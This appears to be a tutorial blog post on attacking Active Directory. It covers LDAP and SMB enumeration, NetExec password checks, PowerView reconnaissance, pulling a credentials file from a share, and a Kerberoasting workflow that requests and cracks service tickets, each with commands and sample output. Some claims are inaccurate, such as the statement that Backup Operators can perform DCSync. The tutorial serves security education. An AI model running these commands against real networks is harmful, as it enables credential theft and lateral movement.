



## What is Active Directory? (Explained Simply)

Imagine a large corporate building with hundreds of employees, meeting rooms, server closets, and restricted labs. Instead of handing out physical keys to everyone, the company uses a **centralized digital security system**:
- A **master directory** knows every employee, their department, and their clearance level
- **Keycards** are issued based on roles (receptionist, IT admin, CEO)
- **Doors** only open if your keycard matches the room's access list
- **Security guards** (Domain Controllers) verify every entry request

**Active Directory (AD)** is exactly this, but for Windows networks. It's Microsoft's directory service that manages:
- User accounts & passwords
- Computers & servers
- Permissions & access controls
- Network resources (shares, printers, applications)
- Authentication & authorization policies

> {: .prompt-tip }
> Think of AD as the "brain" of a Windows network. If you control AD, you control the entire organization's digital infrastructure.

---

## Core AD Architecture Concepts

### Forest, Domain, Tree, OU, Share



| Concept | Definition | Real-World Analogy |
|---------|------------|-------------------|
| **Forest** | Top-level container holding one or more domains sharing a common schema & configuration | Entire corporation worldwide |
| **Domain** | Logical grouping of users, computers, and policies under a single namespace (e.g., `corp.local`) | Regional branch office |
| **Tree** | Hierarchy of domains sharing a contiguous DNS namespace | Departmental subdivisions |
| **Organizational Unit (OU)** | Container within a domain used to organize objects & apply Group Policies | Folders in a filing cabinet |
| **Share** | Network-accessible folder exported via SMB protocol | Locked cabinet with shared key |
| **Domain Controller (DC)** | Server running AD DS, authenticates users, stores directory database | Security desk + master key vault |

---

## Local Groups vs Domain Groups & Privileges

### Key Differences

| Feature | Local Group | Domain Group |
|---------|-------------|--------------|
| **Scope** | Exists only on a single machine | Exists across the entire domain |
| **Management** | Managed via `lusrmgr.msc` or local SAM | Managed via ADUC or PowerShell |
| **Authentication** | Validated against local SAM database | Validated against Domain Controller |
| **Use Case** | Local admin rights, machine-specific tasks | Cross-machine access, enterprise policies |
| **Example** | `BUILTIN\Administrators` | `CORP\Domain Admins` |

### Critical AD Privilege Groups



> {: .prompt-tip }
> **Domain Admins** = God mode for the domain. **Enterprise Admins** = God mode for the entire forest. **Backup Operators** can perform DCSync attacks to extract all password hashes.

---

## Critical Ports & Nmap Scanning

Active Directory relies on specific ports for authentication, directory queries, file sharing, and remote management.

### Essential AD Ports

| Port | Protocol | Service | Purpose |
|------|----------|---------|---------|
| 53 | TCP/UDP | DNS | Domain name resolution |
| 88 | TCP/UDP | Kerberos | Authentication ticketing |
| 135 | TCP | RPC | Remote procedure calls |
| 139 | TCP | NetBIOS | Legacy file/printer sharing |
| 389 | TCP/UDP | LDAP | Directory queries & authentication |
| 445 | TCP | SMB | File sharing, admin shares, RPC over SMB |
| 3268/3269 | TCP | Global Catalog | Forest-wide directory searches |
| 5985/5986 | TCP | WinRM | PowerShell remoting |

### Nmap AD Discovery Scan

```bash
nmap -sV -sC -p 53,88,135,139,389,445,3268,5985 -oN ad_scan.txt 10.10.10.0/24
```

**Output:**
```text
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-01 10:15 UTC
Nmap scan report for dc01.corp.local (10.10.10.10)
Host is up (0.0023s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-01 10:15:22Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows AD LDAP (Domain: CORP.LOCAL, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
3268/tcp open  ldap          Microsoft Windows AD LDAP (Global Catalog)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for file01.corp.local (10.10.10.15)
Host is up (0.0031s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2019 Standard 17763 microsoft-ds
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (2 hosts up) scanned in 12.44 seconds
```

> {: .prompt-tip }
> Port 389 (LDAP) and 445 (SMB) are your primary enumeration targets. LDAP reveals directory structure, users, groups, and policies. SMB reveals shares, admin access, and enables credential relay/Pass-the-Hash attacks.

---

## Tool Arsenal for AD Enumeration

| Tool | Purpose | Installation |
|------|---------|--------------|
| **Nmap** | Network discovery & port scanning | `apt install nmap` |
| **ldapsearch** | LDAP directory queries | `apt install ldap-utils` |
| **smbclient** | SMB share enumeration & access | `apt install smbclient` |
| **NetExec** (ex-CME) | AD enumeration, credential spraying, module execution | `pipx install netexec` |
| **PowerView** | PowerShell AD reconnaissance | Built into PowerSploit/ADModule |
| **BloodHound** | AD attack path mapping | `apt install bloodhound` + SharpHound collector |
| **Impacket** | Python AD protocol exploitation | `pipx install impacket` |
| **enum4linux-ng** | SMB/LDAP enumeration wrapper | `apt install enum4linux-ng` |

---

## LDAP Enumeration (Port 389)

LDAP (Lightweight Directory Access Protocol) is the query language for Active Directory. It allows reading users, groups, OUs, computers, and policies.

### Anonymous LDAP Bind & Base DN Discovery

```bash
ldapsearch -x -H ldap://10.10.10.10 -b "" -s base namingContexts
```

**Output:**
```text
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject
# filter: (objectclass=*)
# requesting: namingContexts 
#

# 
dn:
namingContexts: DC=corp,DC=local
namingContexts: CN=Configuration,DC=corp,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=corp,DC=local
namingContexts: DC=DomainDnsZones,DC=corp,DC=local
namingContexts: DC=ForestDnsZones,DC=corp,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 6
# numEntries: 1
```

### Enumerate All Users

```bash
ldapsearch -x -H ldap://10.10.10.10 -b "DC=corp,DC=local" "(objectClass=user)" sAMAccountName
```

**Output:**
```text
# extended LDIF
#
# LDAPv3
# base <DC=corp,DC=local> with scope subtree
# filter: (objectClass=user)
# requesting: sAMAccountName 
#

# jdoe, Users, corp.local
dn: CN=jdoe,CN=Users,DC=corp,DC=local
sAMAccountName: jdoe

# asmith, IT, corp.local
dn: CN=asmith,OU=IT,DC=corp,DC=local
sAMAccountName: asmith

# svc_backup, ServiceAccounts, corp.local
dn: CN=svc_backup,OU=ServiceAccounts,DC=corp,DC=local
sAMAccountName: svc_backup

# Administrator, Users, corp.local
dn: CN=Administrator,CN=Users,DC=corp,DC=local
sAMAccountName: Administrator

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 4
```

### Enumerate Domain Groups & Members

```bash
ldapsearch -x -H ldap://10.10.10.10 -b "DC=corp,DC=local" "(objectClass=group)" cn member
```

**Output:**
```text
# Domain Admins, Users, corp.local
dn: CN=Domain Admins,CN=Users,DC=corp,DC=local
cn: Domain Admins
member: CN=Administrator,CN=Users,DC=corp,DC=local
member: CN=asmith,OU=IT,DC=corp,DC=local

# IT_Support, IT, corp.local
dn: CN=IT_Support,OU=IT,DC=corp,DC=local
cn: IT_Support
member: CN=asmith,OU=IT,DC=corp,DC=local
member: CN=jdoe,CN=Users,DC=corp,DC=local

# search result
search: 2
result: 0 Success
```

> {: .prompt-tip }
> LDAP enumeration is passive and rarely triggers alerts. Always check for `servicePrincipalName` attributes to identify Kerberoastable accounts, and `userAccountControl` flags to find accounts with `DONT_REQ_PREAUTH` (AS-REP Roasting).

---

## SMB Enumeration (Port 445) — smbclient & NetExec

SMB (Server Message Block) handles file sharing, admin shares (`C$`, `ADMIN$`), and RPC communication. It's the backbone of Windows lateral movement.

### smbclient — Share Enumeration

```bash
smbclient -L //10.10.10.15 -N
```

**Output:**
```text
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Public          Disk      Company shared files
        SYSVOL          Disk      Logon server share 
        Backups         Disk      Weekly server backups
SMB1 disabled -- no workgroup available
```

### smbclient — Accessing a Share

```bash
smbclient //10.10.10.15/Public -N
```

**Output:**
```text
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Feb  1 08:12:33 2024
  ..                                  D        0  Wed Feb  1 08:12:33 2024
  company_policy.pdf                  A   245760  Mon Jan 15 14:22:10 2024
  network_diagram.png                 A   1048576 Tue Jan 23 09:45:12 2024
  credentials.txt.bak                 A      512  Thu Jan 18 11:30:05 2024

                52428799 blocks of size 4096. 41943040 blocks available
smb: \> get credentials.txt.bak
getting file \credentials.txt.bak of size 512 as credentials.txt.bak (1.2 KiloBytes/sec) (average 1.2 KiloBytes/sec)
smb: \> exit
```

### NetExec — Comprehensive AD Enumeration

```bash
netexec smb 10.10.10.0/24 --users
```

**Output:**
```text
SMB         10.10.10.10     445    DC01             [*] Windows Server 2019 Standard 17763 x64 (name:DC01) (domain:corp.local) (signing:True) (SMBv1:False)
SMB         10.10.10.15     445    FILE01           [*] Windows Server 2019 Standard 17763 x64 (name:FILE01) (domain:corp.local) (signing:False) (SMBv1:False)
SMB         10.10.10.10     445    DC01             [+] corp.local\jdoe:Password123! (Pwn3d!)
SMB         10.10.10.15     445    FILE01           [+] corp.local\jdoe:Password123! (Pwn3d!)
SMB         10.10.10.10     445    DC01             [*] Enumerating domain users
SMB         10.10.10.10     445    DC01             [+] corp.local\administrator
SMB         10.10.10.10     445    DC01             [+] corp.local\jdoe
SMB         10.10.10.10     445    DC01             [+] corp.local\asmith
SMB         10.10.10.10     445    DC01             [+] corp.local\svc_backup
SMB         10.10.10.10     445    DC01             [+] corp.local\krbtgt
```

### NetExec — Share & Local Admin Enumeration

```bash
netexec smb 10.10.10.0/24 -u jdoe -p 'Password123!' --shares
```

**Output:**
```text
SMB         10.10.10.10     445    DC01             [*] Windows Server 2019 Standard 17763 x64 (name:DC01) (domain:corp.local) (signing:True) (SMBv1:False)
SMB         10.10.10.15     445    FILE01           [*] Windows Server 2019 Standard 17763 x64 (name:FILE01) (domain:corp.local) (signing:False) (SMBv1:False)
SMB         10.10.10.10     445    DC01             [+] corp.local\jdoe:Password123! (Pwn3d!)
SMB         10.10.10.15     445    FILE01           [+] corp.local\jdoe:Password123! (Pwn3d!)
SMB         10.10.10.10     445    DC01             [+] Read: ADMIN$, C$, IPC$, NETLOGON, SYSVOL
SMB         10.10.10.15     445    FILE01           [+] Read: ADMIN$, C$, IPC$, Public, Backups, NETLOGON, SYSVOL
SMB         10.10.10.15     445    FILE01           [+] Write: Public, Backups
```

> {: .prompt-tip }
> NetExec replaces CrackMapExec and is the modern standard for AD enumeration. Always check `--local-admin` to find machines where your current user has administrative rights. This is your lateral movement pivot point.

---

## PowerView Deep Dive — Commands & Outputs

PowerView is a PowerShell module for AD reconnaissance. It queries LDAP/SMB/RPC to map the domain structure, find misconfigurations, and identify attack paths.

### Load PowerView

```powershell
Import-Module .\PowerView.ps1
```

**Output:**
```text
(no output - module loaded silently)
```

### Get Domain Information

```powershell
Get-Domain
```

**Output:**
```text
Forest                  : corp.local
DomainControllers       : {DC01.corp.local}
Children                : {}
DomainMode              : Windows2016Domain
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : DC01.corp.local
RidRoleOwner            : DC01.corp.local
InfrastructureRoleOwner : DC01.corp.local
Name                    : corp.local
```

### Enumerate Domain Users

```powershell
Get-DomainUser | Select-Object samaccountname,memberof,description
```

**Output:**
```text
samaccountname memberof                                      description
-------------- --------                                      -----------
Administrator  {CN=Domain Admins,CN=Users,DC=corp,DC=local}  Built-in account for administering the computer/domain
jdoe           {CN=IT_Support,OU=IT,DC=corp,DC=local}        Junior IT technician
asmith         {CN=Domain Admins,CN=Users,DC=corp,DC=local}  Senior Systems Administrator
svc_backup     {CN=Backup Operators,CN=Builtin,DC=corp,DC=local} Service account for Veeam backups
krbtgt         {}                                            Key Distribution Center Service Account
```

### Enumerate Domain Groups

```powershell
Get-DomainGroup | Select-Object samaccountname,membercount,description
```

**Output:**
```text
samaccountname       membercount description
--------------       ----------- -----------
Domain Admins        2           Designated administrators of the domain
Enterprise Admins    1           Designated administrators of the enterprise
Schema Admins        1           Designated administrators of the schema
Backup Operators     1           Members can back up and restore all files on a computer
IT_Support           2           IT helpdesk staff with local admin on workstations
Server Operators     0           Members can administer domain controllers
```

### Enumerate Organizational Units

```powershell
Get-DomainOU | Select-Object distinguishedname,description
```

**Output:**
```text
distinguishedname                          description
-----------------                          -----------
OU=IT,DC=corp,DC=local                     Information Technology Department
OU=Finance,DC=corp,DC=local                Finance & Accounting
OU=ServiceAccounts,DC=corp,DC=local        Non-interactive service accounts
OU=Servers,DC=corp,DC=local                Domain-joined servers
OU=Workstations,DC=corp,DC=local           Employee desktops & laptops
```

### Enumerate Domain Computers

```powershell
Get-DomainComputer | Select-Object dnshostname,operatingsystem,lastlogondate
```

**Output:**
```text
dnshostname          operatingsystem                  lastlogondate
-----------          ---------------                  -------------
DC01.corp.local      Windows Server 2019 Standard     2024-02-01 10:15:22
FILE01.corp.local    Windows Server 2019 Standard     2024-02-01 09:45:10
WEB01.corp.local     Windows Server 2022 Datacenter   2024-01-31 22:10:05
WS-JDOE.corp.local   Windows 11 Pro                   2024-02-01 08:30:12
WS-ASMITH.corp.local Windows 11 Enterprise            2024-02-01 09:12:44
```

### Find Accessible Shares

```powershell
Invoke-ShareFinder -CheckShareAccess
```

**Output:**
```text
\\DC01.corp.local\ADMIN$           - Remote Admin
\\DC01.corp.local\C$               - Default share
\\DC01.corp.local\IPC$             - Remote IPC
\\DC01.corp.local\NETLOGON         - Logon server share
\\DC01.corp.local\SYSVOL           - Logon server share
\\FILE01.corp.local\ADMIN$         - Remote Admin
\\FILE01.corp.local\C$             - Default share
\\FILE01.corp.local\IPC$           - Remote IPC
\\FILE01.corp.local\Public         - Company shared files
\\FILE01.corp.local\Backups        - Weekly server backups
\\WEB01.corp.local\ADMIN$          - Remote Admin
\\WEB01.corp.local\C$              - Default share
\\WEB01.corp.local\IPC$            - Remote IPC
\\WEB01.corp.local\wwwroot         - IIS web content
```

### Find Local Admin Access

```powershell
Find-LocalAdminAccess -Verbose
```

**Output:**
```text
VERBOSE: [Find-LocalAdminAccess] Testing WS-JDOE.corp.local
VERBOSE: [Find-LocalAdminAccess] Testing WS-ASMITH.corp.local
VERBOSE: [Find-LocalAdminAccess] Testing FILE01.corp.local
VERBOSE: [Find-LocalAdminAccess] Testing WEB01.corp.local
VERBOSE: [Find-LocalAdminAccess] Current user has local admin access on:
VERBOSE: [Find-LocalAdminAccess] WS-JDOE.corp.local
VERBOSE: [Find-LocalAdminAccess] FILE01.corp.local
```

### Check Domain Password Policy

```powershell
Get-DomainPolicy | Select-Object -ExpandProperty SystemAccess
```

**Output:**
```text
MinimumPasswordAge         : 0
MaximumPasswordAge         : 42
MinimumPasswordLength      : 7
PasswordComplexity         : 1
PasswordHistorySize        : 24
LockoutBadCount            : 5
ResetLockoutCount          : 30
LockoutDuration            : 30
```

> {: .prompt-tip }
> PowerView commands run in the context of the current user. If you're authenticated as `jdoe`, you'll only see what `jdoe` can access. Always run `whoami /all` first to understand your current privileges before enumerating.

---

## From Enumeration to Exploitation

Enumeration reveals the attack surface. Here's how findings translate to exploitation:

| Enumeration Finding | Exploitation Path |
|---------------------|-------------------|
| `userAccountControl: 4194304` (DONT_REQ_PREAUTH) | AS-REP Roasting → Crack hash → Login |
| `servicePrincipalName` set on user account | Kerberoasting → Request TGS → Crack offline |
| User in `Backup Operators` or `Domain Admins` | DCSync → Extract all NTDS.dit hashes |
| Writable `SYSVOL` or Group Policy Preferences | GPP Password Decryption → Credential reuse |
| `Find-LocalAdminAccess` returns workstations | Pass-the-Hash / Overpass-the-Hash → Lateral movement |
| Unconstrained Delegation on computer | Printer Bug → Force authentication → TGT theft |
| Constrained Delegation misconfiguration | S4U2Proxy → Impersonate users to target services |
| `msDS-AllowedToActOnBehalfOfOtherIdentity` set | RBCD (Resource-Based Constrained Delegation) → Forge S4U tickets |

### Example: Kerberoasting Workflow

```bash
# 1. Find Kerberoastable accounts via PowerView
Get-DomainUser -SPN | Select-Object samaccountname,serviceprincipalname

# Output:
# samaccountname    serviceprincipalname
# --------------    --------------------
# svc_sql           MSSQLSvc/DB01.corp.local:1433
# svc_exchange      exchangeMDB/MAIL01.corp.local

# 2. Request TGS tickets using Rubeus or Impacket
impacket-GetUserSPNs -request -dc-ip 10.10.10.10 corp.local/jdoe:Password123!

# Output:
# $krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc/DB01.corp.local:1433*$<LONG_HASH>

# 3. Crack with hashcat
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt

# Output:
# $krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc/DB01.corp.local:1433*$<LONG_HASH>:Summer2023!
```

---

## AD Enumeration Attack Decision Tree



---

## References

- [Microsoft — Active Directory Domain Services](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/active-directory-domain-services)
- [PowerView Cheatsheet — HarmJ0y](https://github.com/HarmJ0y/CheatSheets)
- [NetExec Documentation](https://www.netexec.wiki/)
- [BloodHound — AD Attack Path Mapping](https://bloodhound.specterops.io/)
- [Impacket — Protocol Exploitation Suite](https://github.com/fortra/impacket)
- [HackTricks — Active Directory Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
- [PayloadsAllTheThings — Active Directory](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Active%20Directory%20Attack)
- [MITRE ATT&CK — Credential Access & Lateral Movement](https://attack.mitre.org/tactics/TA0006/)

---

*Last updated: February 1, 2024*
*Author: Security Researcher*
*License: MIT*
````
